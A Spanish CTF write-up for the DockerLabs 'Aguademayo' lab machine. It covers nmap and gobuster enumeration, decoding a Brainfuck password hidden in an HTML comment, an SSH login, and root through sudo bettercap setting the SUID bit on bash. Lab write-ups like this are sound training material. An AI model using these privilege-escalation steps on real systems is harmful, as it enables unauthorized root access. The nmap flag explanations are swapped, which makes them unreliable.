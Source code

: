 ## WRITEUP DE LA MÁQUINA AGUADEMAYO DE DOCKERLABS EN ESPAÑOL

Sitio web - https://dockerlabs.es/#/

Hacemos un escaneo de puertos mediante la herramienta nmap, esto casi siempre es el comienzo para la resolución de una máquina o CTF.

```shell
└─$ nmap -sV -sC 172.17.0.2 -oN outputscan.txt
```
"-sC" Muestra la versión del servicio del puerto abierto.
<br><br>
"-sV" Ejecuta scripts propios de Nmap que, entre otras cosas, descubren información detallada sobre los servicios.
<br><br>
"172.18.0.2" Es la dirección IP de la máquina víctima.
<br><br>
"-oN outputscan.txt" Sirve para que te copie el resultado del escaneo en el fichero que tú le indiques (no hay que crearlo antes, lo crea solo). Esto lo hago por si más tarde quiero volver a ver el escaneo pero no quiero tener que hacerlo de nuevo.

En este caso no he utlizado ni "-p-", ni "-n", ni "--min-rate 5000" ya que para algo tan sencillo es más eficaz y rapido ejecutar un comando más corto.

```
─$ nmap -sC -sV 172.17.0.2 -oN outputscan.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-07 03:11 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 172.17.0.2
Host is up (0.00015s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 75:ec:4d:36:12:93:58:82:7b:62:e3:52:91:70:83:70 (ECDSA)
|_  256 8f:d8:0f:2c:4b:3e:2b:d7:3c:a2:83:d3:6d:3f:76:aa (ED25519)
80/tcp open  http    Apache httpd 2.4.59 ((Debian))
|_http-server-header: Apache/2.4.59 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.96 seconds
```

Vemos que el puerto 22 y 80 de los servicios ssh y http respectivamente estan abiertos. Empezaremos por ver que sitio web encontramos con la IP víctima (172.17.0.2):

![pagina web](https://github.com/user-attachments/assets/6c91aa72-6b41-4795-bd48-5be16dc12001)

Vemos que es una página web sencilla, como costrumbre reviso el código fuente con ```Ctrl + u```. Si no eres observador veras un código normal sin nada raro, peo cuando llegas a las últimas lineas vemos que todavía se puedo hacer mucho más scroll hacia abajo, y que vemos...?

```
<!--
++++++++++[>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>++++++++++++>++++++++++>++++++++++++>++++++++++>+++++++++++>+++++++++++>+>+<<<<<<<<<<<<<<<<<-]>--.>+.>--.>+.>---.>+++.>---.>---.>+++.>---.>+..>-----..>---.>.>+.>+++.>.
-->
```

Es normal no entender que sígnifican tantos caracteres pero si lo buscas en algun navegador o en alguna IA, te diran que es el lenguage de programación conocido como Brainfuck. Metiendo este codigo (Sin el ```<!-- y -->``` del principio y final, eso es solo para hacer un comentario en HTML) un decodificador que he encontrado (https://www.dcode.fr/brainfuck-language) nos muestra que dicho código significa: "bebeaguaqueessano". <br><br>
Tenemos lo que posiblemente sea una contraseña. Vamos ahora a buscar directorios ocultos en esta página web para ver si podemos encontrar algo, algún nombre de usuario, algún archivo o algo. Lo haremos mediante la herramienta Gobuster.

```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
El modo dir indica que Gobuster realizará una enumeración de directorios y archivos.
<br><br>
"-u" Especifica la URL del objetivo que Gobuster escaneará. En este caso, el objetivo es http://172.17.0.2/.
<br><br>
"-w" Especifica la lista de palabras (wordlist) que Gobuster usará para la fuerza bruta. La lista de palabras contiene nombres de directorios y archivos comunes que Gobuster intentará encontrar en el servidor web. Aquí se está utilizando una lista de palabras proporcionada por DirBuster, llamada directory-list-2.3-medium.txt.
<br><br>
El resultado:

```
└─$ gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 309] [--> http://172.17.0.2/images/]
/server-status        (Status: 403) [Size: 275]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

Tenemos un directorio oculto en la página llamado "images", lo ponemos en el navegador y vemos:

![Foto directorio images](https://github.com/user-attachments/assets/658bcb1b-7249-42ba-901d-ee6a24359f79)

Probe a descargar los datos y buscar información en los metadatos pero nada, es mucho más simple. Teniendo el nombre de la foto, "agua_ssh.jpg" me dice que el usuario al que debo hacer ssh es "agua" y su contraseña debería ser "bebeaguaqueessano".

```
ssh agua@172.17.0.2
```

Hacemos un ```Sudo -l``` para escalar privilegios, vemos que podemos ejecutar el binario bettercap. Lo ejecutamos mediante ```sudo /usr/bin/bettercap``` y nos sale:

```
agua@fb7a55388ca1:~$ sudo /usr/bin/bettercap 
bettercap v2.32.0 (built for linux amd64 with go1.19.8) [type 'help' for a list of commands]

172.17.0.0/16 > 172.17.0.2  » [08:16:10] [sys.log] [war] exec: "ip": executable file not found in $PATH
172.17.0.0/16 > 172.17.0.2  »  
```

Si escribimos help nos sale una lista de comandos y cosas que podemos ejecutar, vemos que para ejecutar comandos por la shell hay que poner un ! delante del comando:

![bettercap](https://github.com/user-attachments/assets/7bcff637-0ac9-40de-9d86-17274705f825)

Le vamos a dar al binario bash el permiso SUID (activar el bit SUID) y así poder ejecutar bash con los permisos de root sin serlo. Para ello escribimos ```chmod u+s /usr/bin/bash```;
<br><br>
"chmod" -> (change mode) es el comando para cambiar permisos.
<br>
"u" -> Cace referencia a "user", significa que cambiaremos permisos a user.
<br>
"+" -> Con el más conseguimos agregar los permisos que indiquemos.
<br>
"s" -> Hace referencia al permiso SUID (Set User ID), activa dicho bit.
<br>
"/usr/bin/bash" -> Esta es la ruta a la que vamos a sumar los permisos.
<br><br>
Salimos al usuario de agua con ```exit``` y escribimos ```bash -p``` (Usar bash -p te proporciona una shell de root, pero sin arriesgarte a heredar permisos SUID de otros binarios o de la shell en la que estabas trabajando.)

```
agua@fb7a55388ca1:~$ bash -p
bash-5.2# whoami
root          
```

Somos root, muchas gracias por seguir este writeup, nos vemos en la próxima!!
